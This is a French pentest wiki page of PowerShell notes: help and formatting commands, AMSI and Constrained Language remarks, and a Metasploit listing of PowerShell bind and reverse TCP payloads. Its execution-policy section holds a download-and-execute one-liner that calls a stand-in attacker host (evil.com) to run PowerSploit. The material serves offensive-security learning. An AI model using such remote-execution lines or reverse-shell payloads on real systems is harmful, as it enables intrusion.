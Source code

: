 ```yaml
---
title: Powershell
permalink: /Powershell/
---
```


Généralités
-----------

- powershell.exe n'est pas "Powershell" mais juste une interface pour intéragir avec. Il est possible d'utiliser d'autres interfaces comme "Not Powershell" (https://github.com/Ben0xA/nps)
- Il est possible d'activer le logging pour Powershell
- (Powershell v5): Constrained Powershell Enforced (lié à DeviceGuard) permet de bloquer certaines fonctionnalités de powershell (notamment celles utilisées par Invoke-Mimikatz)
- (Windows 10): [Anti malware Scan Interface](https://msdn.microsoft.com/fr-fr/library/windows/desktop/dn889587(v=vs.85).aspx) fournit une interface pour les antivirus qui permet notamment de faciliter l'analyse AV en mémoire.
   - Il existe des méthodes pour bypasser AMSI.
   - La plupart des AV ne supportent pas AMSI.
- (Windows 10): [Just Enough Administration](/Just_Enough_Administration/)


Commandes
---------

Obtenir de l'aide en powershell:

``` powershell
Get-Help Get-Command # Obtenir de l'aide sur Get-Command
Get-Help Get-Command -examples # Affiche les examples
Get-Help Get-Command -full # Affiche toute l'aide
Get-Help Get-Command -Parameter * # Affiche les paramétres
Get-Command Out* # Renvoie toutes les commandes dont le nom contient Out*
```

Pour faire des boucles:

``` powershell
Get-Process | ForEach-Object {$_.Name} # Boucle sur chaque résultat de la commande Get-Process et renvoie le nom
```

Pour faire du formatting / output:

``` powershell
Get-Process | Format-List -Property Threads, SessionId # Affiche le résultat sous forme de liste en se limitant à certaines informations
```

Session interactive
-------------------

**Note**: cette section est basée sur [Interactive sessions in PowerShell](https://www.trustedsec.com/june-2015/interactive-powershell-sessions-within-meterpreter/)

Pour obtenir une session interactive avec Powershell sous metasploit il est possible d'utiliser un des payloads dédiés dans metasploit. Il est à noter qu'il n'est pas possible de passer par meterpreter qui ne permet pas de lancer powershell après avoir fait un `shell`. Dans la version 4.11.5-2016010401 de metasploit les modules suivants sont disponibles:

``` bash
msf exploit(psexec) > search Interactive_powershell

Matching Modules
================

   Name                                        Disclosure Date  Rank    Description
   ----                                        ---------------  ----    -----------
   payload/cmd/windows/powershell_bind_tcp                      normal  Windows Interactive Powershell Session, Bind TCP
   payload/cmd/windows/powershell_reverse_tcp                   normal  Windows Interactive Powershell Session, Reverse TCP
   payload/windows/powershell_bind_tcp                          normal  Windows Interactive Powershell Session, Bind TCP
   payload/windows/powershell_reverse_tcp                       normal  Windows Interactive Powershell Session, Reverse TCP
   payload/windows/x64/powershell_bind_tcp                      normal  Windows Interactive Powershell Session, Bind TCP
   payload/windows/x64/powershell_reverse_tcp                   normal  Windows Interactive Powershell Session, Reverse TCP
```

Execution Policy
----------------

Il est possible de contourner l'execution policy ("\[...\] running scripts is disabled on this system."):

``` powershell
iex (new-object net.webclient).downloadstring('file:///C:\\Tools\\Powersploit\\Powersploit.psd1')
iex (new-object net.webclient).downloadstring('https://evil.com/powersploit.psd1')
```

-   Si powershell.exe est bloqué: il est possible d'utiliser **Not Powershell** (https://github.com/Ben0xA/nps)

Il est très important de comprendre que l'execution policy n'est pas un mécanisme de sécurité ! (Microsoft le dit lui-même)

Commandes utiles
----------------

Les commandes suivantes sont utiles à connaître lors de l'utilisation de Powershell:

Resources
---------

-  [PowerUp: A Usage Guide](http://www.harmj0y.net/blog/powershell/powerup-a-usage-guide/)
-  [PwnWiki](http://pwnwiki.io/#!scripting/powershell.md)
-  [DerbyCon - PowerShell Secrets and Tactics](https://www.youtube.com/watch?v=mPPv6_adTyg)
-  [PowerShell Security: Defending the Enterprise from the Latest Attack Platform](https://www.youtube.com/watch?v=_8yBjg7bRLo)

